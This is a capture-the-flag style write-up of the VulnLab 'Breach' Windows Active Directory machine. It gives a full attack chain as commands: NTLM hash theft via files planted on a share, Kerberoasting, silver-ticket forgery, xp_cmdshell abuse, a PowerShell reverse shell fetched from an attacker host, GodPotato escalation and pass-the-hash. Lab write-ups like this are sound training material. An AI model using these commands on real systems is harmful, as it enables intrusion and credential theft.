 ```yaml
---
title: VulnLab -- Breach Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,Silver Ticket,MSSQL Abuse,NTLM Relaying]
image:
    path: ../images/Breach-banner.png
---
```

# Breach

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Breach** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/breach-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 3268,51742,51725,80,464,9389,3269,636,1433,135,593,5985,139,49667 --min-rate=1000 10.10.117.12
```

![image.png](../images/breach.png)

Now let’s go and enumerate the shares

```bash
nxc smb breach.vl -u 'guest' -p '' --shares
```

![image.png](../images/breach%201.png)

> Notice that we got access to two shares
> 

let’s connect to the users share

```bash
smbclient \\\\breach.vl\\Users -U "breach.vl\guest"
```

![image.png](../images/breach%202.png)

we didn’t find anything interesting so let’s go and get the domain users

```bash
nxc smb breach.vl -u 'guest' -p '' --rid-brute 10000
```

![image.png](../images/breach%203.png)

now save the results and let’s extract the users

```bash
cat results.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/breach%204.png)

Notice that we have a writable share so let’s go create a malisons file to help us steal the ntlm hashes of any user enter the share

```bash
python3 ntlm_theft.py --generate all --server 10.8.5.233 --filename remo
```

![image.png](../images/breach%205.png)

Now let’s open responder to catch the ntlm hashes

```bash
sudo responder -I tun0
```

![image.png](../images/breach%206.png)

now let’s upload the generated files

```bash
smbclient \\\\breach.vl\\share -U "breach.vl\guest"
```

![image.png](../images/breach%207.png)

now let’s put the generated files

```bash
prompt off
mput *
```

![image.png](../images/breach%208.png)

Now let’s go back to responder and see if we got any hashes

![image.png](../images/breach%209.png)

and we got the hash of Julia.Wong so let’s crack it

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/breach%2010.png)

> As we see we got the password of Julia
> 
> 
> username: Julia.Wong
> password: Computer1
> 

Now let’s see if it’s working

```bash
nxc smb breach.vl -u 'Julia.Wong' -p 'Computer1'
```

![image.png](../images/breach%2011.png)

And it’s working!

Now let’s get bloodhound

```bash
bloodhound-python -ns 10.10.117.12 -d breach.vl -u Julia.Wong -p Computer1 -c all --zip
```

![image.png](../images/breach%2012.png)

Now let’s open the bloodhound and see if we have interesting permissions

![image.png](../images/breach%2013.png)

> Notice that our user is member of Print Operators
> 

Now let’s see the kerbeorstable users 

```bash
impacket-GetUserSPNs breach.vl/'Julia.Wong':'Computer1' -target-domain breach.vl -dc-ip 10.10.117.12 -request -outputfile crackme.txt
```

![image.png](../images/breach%2014.png)

Now let’s try to crack it’s passowrd

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/breach%2015.png)

> And we go the password of the svc_sql
username: svc_mssql
password: Trustno1
> 

Now let’s try to login to the MSSQL service

```bash
nxc mssql breach.vl -u svc_mssql -p 'Trustno1'
```

![image.png](../images/breach%2016.png)

Now let’s get a silver ticket to forge administrator for MSSQLservice

```bash
impacket-ticketer -domain breach.cl -dc-ip 10.10.117.12 -domain-sid S-1-5-21-2330692793-3312915120-706255856 -spn MSSQLSvc/breachdc.breach.vl:1433 administrator -nthash 69596C7AA1E8DAEE17F8E78870E25A5C
```

![image.png](../images/breach%2017.png)

Now let’s export the ticket

```bash
export KRB5CCNAME=administrator.ccache
```

![image.png](../images/breach%2018.png)

Now let’s connect to MSSQL Service

```bash
impacket-mssqlclient -k breachdc.breach.vl
```

![image.png](../images/breach%2019.png)

now let’s enable the xp_cmdshell function

```bash
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

![image.png](../images/breach%2020.png)

Now let’s try to execute commands

```bash
exec master..xp_cmdshell 'whoami'
```

![image.png](../images/breach%2021.png)

And we got code execution so let’s go and  get a reverse shell

Now let’s open a listener

```bash
nc -lvnp 1337
```

![image.png](../images/breach%2022.png)

now let’s go and execute a reverse shell

```bash
exec master..xp_cmdshell "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://10.8.5.233/rev.ps1')"
```

![image.png](../images/breach%2023.png)

and we go a shell!

Now let’s see our privileges 

```bash
whoami /all
```

![image.png](../images/breach%2024.png)

> Notice that we have the Impersonation privileges
> 

So let’s download and execute the God Potato to get system access

```bash
 .\gp.exe -cmd "cmd /c whoami"
```

![image.png](../images/breach%2025.png)

Now let’s add Julia.Wong as a local administrator

```bash
.\gp.exe -cmd "cmd /c net localgroup administrators Julia.Wong /add"
```

![image.png](../images/breach%2026.png)

Now let’s dump the hashes using secrets dump

```bash
impacket-secretsdump breach.vl/Julia.Wong:'Computer1'@10.10.117.12
```

![image.png](../images/breach%2027.png)

Now let’s login as administrator

```bash
evil-winrm -i breach.vl -u administrator -H 'd9a47efd620c2f6d349dd035274d2117'
```

![image.png](../images/breach%2028.png)

now let’s go to the administrator folder and get the flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/breach%2029.png)

Amazing we got the root flag 🥳

![image.png](../images/breach%2030.png)

That’s it for the **Breach** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX